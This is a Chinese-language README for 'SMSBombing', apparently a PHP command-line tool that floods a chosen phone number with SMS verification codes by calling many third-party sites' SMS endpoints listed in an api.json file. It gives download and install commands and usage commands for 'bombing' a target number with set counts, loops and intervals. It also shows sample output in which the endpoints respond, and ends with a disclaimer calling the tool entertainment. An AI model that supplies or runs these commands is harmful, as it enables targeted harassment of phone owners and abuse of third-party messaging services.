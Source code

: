 <div align="center">
    
<h1>SMSBombing</h1>

[![Auth](https://img.shields.io/badge/Auth-xiaoxuan6-ff69b4?logo=github)](https://github.com/xiaoxuan6)
[![GitHub Pull Requests](https://img.shields.io/github/stars/xiaoxuan6/SMSBombing?logo=Undertale)](https://github.com/xiaoxuan6/SMSBombing/stargazers)
![GitHub forks](https://img.shields.io/github/forks/xiaoxuan6/SMSBombing?style=flat&logo=forgejo)
[![Github latest release](https://img.shields.io/github/v/release/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/releases)
![GitHub Tag](https://img.shields.io/github/v/tag/xiaoxuan6/SMSBombing)
[![HitCount](https://views.whatilearened.today/views/github/xiaoxuan6/SMSBombing.svg)](https://github.com/xiaoxuan6/SMSBombing)
[![](https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-xiaoxuan6‘s-d7b1bf?logo=Blogger)](https://xiaoxuan6.vercel.app/)
![Static Badge](https://img.shields.io/badge/weekly-%E5%91%A8%E5%88%8A-d7b1bf?style=flat&logo=stackexchange)
[![GitHub license](https://img.shields.io/github/license/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/blob/v2/LICENSE)

</div>

> [!NOTE]  
> 基础框架已提供，如需添加/修改更多 `api` 接口，直接修改 `api.json` 文件，切勿重复提交相关 issue [#14](https://github.com/xiaoxuan6/SMSBombing/issues/14)、[#11](https://github.com/xiaoxuan6/SMSBombing/issues/11)、[#10](https://github.com/xiaoxuan6/SMSBombing/issues/10)

> [!WARNING]
> 版本 `v2.1.0` 之后默认使用 `url` 获取 `api.json`, 如果需要使用指定 `api.json` 请使用版本 `v2.1.1` 或更高版本。
>
> EX:
>
> ```
> sms-bombing 176xxxxxxxx -f ./api.json
> ```

# Requirement

* PHP >= 8.1

# Install

> [!NOTE]  
> 以下三种方法使用任意一种方法安装都可以，并不是三种方法全部执行！！！
> 
> 以下三种方法使用任意一种方法安装都可以，并不是三种方法全部执行！！！
> 
> 以下三种方法使用任意一种方法安装都可以，并不是三种方法全部执行！！！
> 
> 重要的事情说三遍。

## 方法一、直接下载 [sms-bombing](./builds/sms-bombing) 可执行文件

```shell
curl 'https://mirror.ghproxy.com/https://raw.githubusercontent.com/xiaoxuan6/SMSBombing/v2/builds/sms-bombing' -o sms-bombing --progress-bar
chmod +x sms-bombing

# linux 下执行
mv sms-bombing /usr/local/bin/sms-bombing

# win 下使用 ./smsbombing ，否则报错：command not found
```

## 方法二、通过 Composer 安装

```bash
composer global require james.xue/sms-bombing
```

## 方法三、Docker

[sms-bombing](./README-docker.md)

# Use

普通轰炸（默认 10 次）

```bash
sms-bombing 136xxxxxxxx
```

全量轰炸

```bash
sms-bombing 136xxxxxxxx --num=all
```

启动 5 次,轰炸一个人的手机号(136xxxxxx)

```bash
sms-bombing 136xxxxxxxx --num=5
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次，循环间隔30秒

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2 -i 30
```

<details>
<summary><b>轰炸效果</b></summary>

```bash
sms-bombing 136xxxxxxxx -l 2
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：1 请求结果：
索引：7 请求结果：0
索引：6 请求结果：success
索引：8 请求结果：
索引：9 请求结果：1
索引：5 请求结果：{"code":0,"msg":"success"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：7 请求结果：0
索引：6 请求结果：success
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
索引：8 请求结果：
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：6 请求结果：success
索引：7 请求结果：0
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
```

</details>

# Changelog

Please see [CHANGELOG](./CHANGELOG.md) for more information on what has changed recently.



# Stargazers over time
[![Stargazers over time](https://starchart.cc/xiaoxuan6/SMSBombing.svg?variant=adaptive)](https://starchart.cc/xiaoxuan6/SMSBombing)

# License

The MIT License (MIT). Please see [License File](./LICENSE) for more information.

# 免责声明

1、若使用者滥用本项目,本人 无需承担 任何法律责任. 本程序仅供娱乐,源码全部开源,禁止滥用 和二次 贩卖盈利. 禁止用于商业用途.

2、本项目仅做学习使用，如果使用到您的网站，您不满意，请联系我删除。
